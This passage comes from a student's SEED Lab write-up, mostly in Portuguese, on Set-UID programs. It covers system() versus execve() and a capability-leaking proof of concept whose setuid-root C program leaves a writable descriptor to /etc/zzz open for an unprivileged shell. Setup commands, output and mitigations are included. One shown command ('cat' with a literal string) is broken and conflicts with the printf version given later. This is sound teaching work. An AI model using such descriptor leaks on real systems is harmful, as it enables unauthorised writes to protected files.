

### Análise Detalhada:

**Setup:** Criámos `/etc/zzz` (root-owned, 0644) e construímos `catall` como setuid-root.

**`system()` + dash:** Quando `catall` usou `system()` e `/bin/sh` era dash, a shell revogou privilégios efetivos — `catall` não conseguiu ler o ficheiro root-only e metacaracteres não executaram.

**`system()` + zsh:** Após apontar `/bin/sh` para zsh temporariamente, a shell não revogou privilégios, permitindo que `system()` executasse comandos arbitrários como root.

**`execve()`:** Substituir `system()` por `execve()` evita invocação de shell; argumentos são passados literalmente, prevenindo ataques de command-injection.



---

## Task 9 - Capability Leaking

**Objetivo:** Testar a vulnerabilidade de *capability leaking* — quando um programa Set-UID revoga o UID mas ainda deixa recursos privilegiados (file descriptors) acessíveis.

### Código:
```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

void main()
{
    int fd;
    char *v[2];

    /* Assume that /etc/zzz is an important system file,
     * and it is owned by root with permission 0644.
     * Before running this program, you should create
     * the file /etc/zzz first. */
    fd = open("/etc/zzz", O_RDWR | O_APPEND);        
    if (fd == -1) {
        printf("Cannot open /etc/zzz\n");
        exit(0);
    }

    // Print out the file descriptor value
    printf("fd is %d\n", fd);

    // Permanently disable the privilege by making the
    // effective uid the same as the real uid
    setuid(getuid());                                

    // Execute /bin/sh
    v[0] = "/bin/sh"; v[1] = 0;
    execve(v[0], v, 0);                             
}
```

### Procedimento:

Compilação e configuração:
```bash
gcc cap_leak.c -o cap_leak
sudo chown root cap_leak
sudo chmod 4755 cap_leak
```

Criação do ficheiro teste:
```bash
sudo touch /etc/zzz
```

Execução:
```bash
./cap_leak
```

### Resultado:

```
[10/13/25]seed@VM:~/Documents$ ./cap_leak
fd is 3
$
```

**Nota:** O `3` é porque o sistema já usa 0 (stdin), 1 (stdout), 2 (stderr). O primeiro `open()` retorna o próximo FD livre, normalmente 3.

### Exploração:

Tentei:
```bash
rm -f /etc/zzz
```

Resultado:
```
$ rm -f /etc/zzz
rm: cannot remove '/etc/zzz': Permission denied
```

Mas usando o fd diretamente:
```bash
cat 'linha maliciosa\n' > &3
```

Verificação:
```bash
$ sudo cat /etc/zzz
linha maliciosa
linha maliciosa
$
```

### Conclusão:

Apesar de não ter autorização de root em vários comandos, consegui adicionar informações no ficheiro `/etc/zzz` (que é do root com permissão específica) usando o endereço do fd. O novo programa herdou esse descritor do programa inicial.

O teste demonstrou a vulnerabilidade de *capability leaking*: embora o processo tenha revogado o root com `setuid(getuid())`, ele deixou para trás o descritor de ficheiro (FD) aberto para `/etc/zzz`. O shell que o programa executou simplesmente herdou esse FD "vazado", permitindo escrever no ficheiro protegido.

### Evidence:
- **Setup:** compiled `cap_leak`, set owner to root and mode 4755, created `/etc/zzz` owned by root (0644)
- **Exploit:** running `./cap_leak` printed `fd is 3`; inside the spawned shell `printf 'attacker wrote line\n' >&3` wrote through the inherited privileged descriptor
- **Evidence:** file size and metadata changed; `cat /etc/zzz` contains the appended line, proving capability leaking

### Mitigação:

`setuid()` sozinho não basta; é preciso limpar todos os recursos privilegiados (fechar os FDs com `close()`) para garantir a segurança.



---

## Conclusion

Este laboratório demonstrou de forma prática como variáveis de ambiente e programas Set-UID podem criar vulnerabilidades de segurança graves quando não são geridos adequadamente. As principais lições incluem:

1. **Herança de Ambiente:** Processos filho herdam variáveis de ambiente, mas o comportamento varia entre `fork()`, `execve()` e `system()`
2. **Set-UID e PATH:** Programas Set-UID que usam `system()` podem ser explorados através de manipulação do PATH
3. **LD_PRELOAD:** É ignorado para programas Set-UID (exceto pelo owner/root) para prevenir escalação de privilégios
4. **system() vs execve():** `system()` invoca uma shell e é vulnerável a command injection; `execve()` é mais seguro
5. **Capability Leaking:** Revogar privilégios com `setuid()` não é suficiente se file descriptors privilegiados não forem fechados

### Recomendações de Segurança:
- Evitar `system()` em código privilegiado
- Usar `execve()` com caminhos absolutos
- Sanitizar ou resetar PATH e unset `LD_*`
- Fechar todos os file descriptors privilegiados antes de revogar privilégios
- Evitar binários setuid quando possível

All work referenced the SEED Lab materials by Wenliang Du and used the supplied code examples.
